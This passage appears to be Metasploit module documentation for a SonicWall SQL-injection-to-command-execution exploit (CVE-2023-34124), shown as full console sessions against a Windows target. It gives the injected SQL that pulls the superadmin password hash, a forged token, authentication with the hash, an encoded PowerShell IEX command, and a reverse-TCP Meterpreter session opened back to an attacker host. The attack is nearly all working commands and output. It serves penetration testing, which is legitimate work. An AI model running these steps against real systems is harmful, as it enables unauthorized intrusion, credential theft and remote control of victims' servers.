 ### Windows command

The Windows target can also run a generic Windows payload. You won't see the
output, though.

```
msf6 > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 1
TARGET => 1
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set PAYLOAD cmd/windows/generic
PAYLOAD => cmd/windows/generic
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.79
RHOST => 10.0.0.79
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set CMD "echo hi > c:\\users\\administrator\\desktop\\test.txt"
CMD => echo hi > c:\users\administrator\desktop\test.txt
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 35362425873079330798216049225958
[*] Generated client token: e304c909a4e69b49608777910338b8ba
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Windows detected!)
[*] Encoding (Windows) command: echo hi > c:\users\administrator\desktop\test.txt
[*] Running shell command: powershell IEX ([System.Text.Encoding]::UTF8.GetString([byte[]]@(99,109,100,46,101,120,101,32,47,99,32,101,99,104,111,32,104,105,32,62,32,99,58,92,117,115,101,114,115,92,97,100,109,105,110,105,115,116,114,97,116,111,114,92,100,101,115,107,116,111,112,92,116,101,115,116,46,116,120,116)))
[+] Payload sent!
```

Validate:

```
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227
LHOST => 10.0.0.227
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set FETCH_SRVHOST 10.0.0.227
FETCH_SRVHOST => 10.0.0.227
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE false
VERBOSE => false
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Windows detected!)
[*] Sending stage (200774 bytes) to 10.0.0.79
[+] Payload sent!
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.79:52787) at 2023-08-18 14:13:11 -0700

meterpreter > ls c:\\users\\administrator\\desktop\\test.txt
100666/rw-rw-rw-  10  fil  2023-08-18 14:06:51 -0700  c:\users\administrator\desktop\test.txt
```